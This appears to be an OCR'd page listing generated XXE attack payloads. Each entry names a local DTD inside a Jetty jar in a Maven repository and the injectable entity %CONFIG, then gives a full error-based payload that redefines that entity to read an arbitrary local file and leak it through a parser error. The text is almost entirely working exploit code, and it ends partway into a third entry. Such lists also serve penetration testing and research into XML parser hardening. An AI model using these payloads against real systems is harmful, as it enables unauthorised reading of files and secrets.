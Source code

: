  --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/eclipse/jetty/jetty-xml/8.1.16.v20140903/jetty-xml-8.1.16.v20140903.jar!/org/eclipse/jetty/xml/configure_6_0.dtd`

**Injectable entity:** `%CONFIG`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/eclipse/jetty/jetty-xml/8.1.16.v20140903/jetty-xml-8.1.16.v20140903.jar!/org/eclipse/jetty/xml/configure_6_0.dtd">

    <!ENTITY % CONFIG 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/eclipse/jetty/jetty-xml/8.1.16.v20140903/jetty-xml-8.1.16.v20140903.jar!/org/eclipse/jetty/xml/configure_7_6.dtd`

**Injectable entity:** `%CONFIG`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/eclipse/jetty/jetty-xml/8.1.16.v20140903/jetty-xml-8.1.16.v20140903.jar!/org/eclipse/jetty/xml/configure_7_6.dtd">

    <!ENTITY % CONFIG 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/eclipse/jetty/jetty-xml/9.3.3.v20150827/jetty-xml-9.3.3.v20150827.jar!/org/eclipse/jetty/xml/configure_6_0.dtd`
